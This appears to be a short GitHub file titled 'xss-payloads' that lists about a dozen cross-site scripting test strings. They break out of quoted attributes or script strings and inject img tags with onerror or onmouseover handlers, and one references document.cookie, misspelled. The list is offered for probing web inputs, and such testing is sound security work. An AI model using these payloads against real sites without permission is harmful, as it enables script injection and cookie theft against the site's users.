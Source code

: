 # xss-payloads
'; alert(documment.cookie);//

XSS1"<img/src=x onmouseover=alert(/XSS1test/)//

XSS2"<img src=x onmouseover=alert('XSS1test')//
XSS3"<img src=x onmouseover=alert("XSS1test")//
test'-alert('XSS2test')-'xss
test'-alert(/XSS2test/)-'xss
test'/alert(/XSS2test/)/'xss
test"><img/src=x onerror=alert(XSS3test)>'
test"><img/src=x onerror=alert('XSS3test')>'
test"><img src=x onmouseover=alert('XSS3test')>'
<img src=x onmouseover=alert('XSS3test')>'
<img/src=x onmouseover=alert(1234)>'

